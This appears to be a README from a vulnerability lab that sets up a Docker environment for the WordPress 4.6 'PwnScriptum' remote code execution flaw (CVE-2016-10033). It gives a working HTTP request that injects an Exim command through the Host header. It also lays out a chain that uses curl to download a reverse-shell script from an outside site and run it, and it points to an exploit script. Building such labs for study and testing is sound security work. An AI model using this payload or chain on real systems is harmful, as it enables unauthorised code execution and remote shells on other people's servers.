

# Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
  - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
  - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).
- Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.
- Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.
- Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:


